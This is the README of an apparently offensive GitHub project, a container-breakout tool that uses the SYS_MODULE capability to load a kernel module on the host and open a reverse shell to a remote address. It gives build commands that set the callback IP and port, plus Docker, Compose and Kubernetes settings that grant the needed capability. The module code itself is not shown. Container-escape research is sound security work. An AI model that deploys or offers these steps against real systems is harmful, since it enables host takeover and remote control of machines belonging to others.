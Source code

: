 # Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on the host (like a virtual machine), containers share the host resources. This makes escaping a container slightly easier than VM. Whether the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, are the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within the container. This project exploits that capability to create a reverse from the local host to a remote server.

![Diagram of the breakout](/image/diagram.png)

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
By default, a simple build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory of Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the container specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```

# References
For further reading and sources check the following pages:
* [Docker Prvilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged)
* [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
* [Technical write-up on how to escape an existing privileged container](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)
* [3 Docker Breakout Techniques](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)
